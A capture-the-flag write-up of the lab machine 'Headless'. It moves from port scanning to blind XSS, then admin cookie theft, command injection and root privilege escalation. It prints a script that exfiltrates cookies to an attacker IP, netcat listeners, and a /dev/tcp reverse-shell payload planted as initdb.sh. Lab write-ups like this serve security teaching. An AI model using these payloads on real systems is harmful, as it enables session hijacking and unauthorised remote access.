# Headless Writeup
## About Headless

Headless is an easy-difficulty Linux machine that features a `Python Werkzeug` server hosting a website. The website has a customer support form, which is found to be vulnerable to blind Cross-Site Scripting (XSS) via the `User-Agent` header. This vulnerability is leveraged to steal an admin cookie, which is then used to access the administrator dashboard. The page is vulnerable to command injection, leading to a reverse shell on the box. Enumerating the user’s mail reveals a script that does not use absolute paths, which is leveraged to get a shell as root.

## Walkthrough
As always, I begin by enumerating open ports using
```bash
nmap 10.10.11.8 -sC -sV -oA nmap -p-
```
<div style="text-align: center;">
    
</div>
<!--  -->
We can see, there are 2 tcp ports open, 22 and 5000
<br>
Port 5000 shows this, and by clicking `For questions`, we are directed to `/support` page
<div style="text-align: center;">
    
</div>
<div style="text-align: center;">
    
</div>
<!-- 
 -->
I tried several payloads, and turns out if we submit something like `<script>`, it will show us

<div style="text-align: center;">
    
</div>

this `Hacking Attempt Detected` pop up. We can see there is `is_admin` cookie, but its not a valid admin cookie since its ours.
It says admin will investigate it, which might be vulnerable to blind XSS.

Then, I opened Burpsuite to intercept my request, and send it to repeater. Since changing the form parameters will result in the detection, here I changed the `User-Agent` header instead, to this :
```js
<script>
    var img = new Image();
    img.src = "http://10.10.14.15:1443/?cookie=" + document.cookie;
</script>
```

Before sending the request, I opened a nc listener on port 1443 by :
```bash
nc -lvnp 1443
```
<div style="text-align: center;">
    
</div>
<!--  -->
After everything is set, I sent the request, and we indeed get the cookie from admin!
<div style="text-align: center;">
    
</div>
<!--  -->
Using the `is_admin` cookie above, I changed my browser's `is_admin` cookie in the storage.
<div style="text-align: center;">
    
</div>
<!--  -->
Gobuster reveals another page that we can use the cookie to abuse
<div style="text-align: center;">
    
</div>
<!--  -->
This is the `/dashboard` page, but nothing seems interesting, so I intercept my request once again in Burpsuite.
<div style="text-align: center;">
    
</div>
<!--  -->
And, turns out we can abuse the `date` parameter to send remote code execution as shown here! By this, we successfully obtained the user flag :D
<div style="text-align: center;">
    
</div>
<!--  -->
Here I sent reverse shell payload to interactive shell as `dvir`. 
<div style="text-align: center;">
    
</div>
<!--  -->

## Privilege Escalation
First thing I tried is using `sudo -l` to get list of my sudo permissions. Turns out, `dvir` user can sudo of `/usr/bin/sysheck` file. Below is shown the `/usr/bin/syscheck` : 
<div style="text-align: center;">
    
</div>
<!--  -->
<div style="text-align: center;">
    
</div>
<!--  -->
Since it uses `initdb.sh` from our current directory, we can forge our `initdb.sh` to escalate privilege to root (from sudo)!

I used this payload as my `initdb.sh` :
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.15/1445 0>&1
```
Also, don't forget to set execute permission (I just `chmod 777 initdb.sh`).
Then I once again set a nc listener on another terminal, and execute `sudo /usr/bin/syscheck` with our malicious `initdb.sh`
<div style="text-align: center;">
    
</div>
<!--  -->
and yay, we obtained shell to root! Here is our flag :
<div style="text-align: center;">
    
</div>
<!--  -->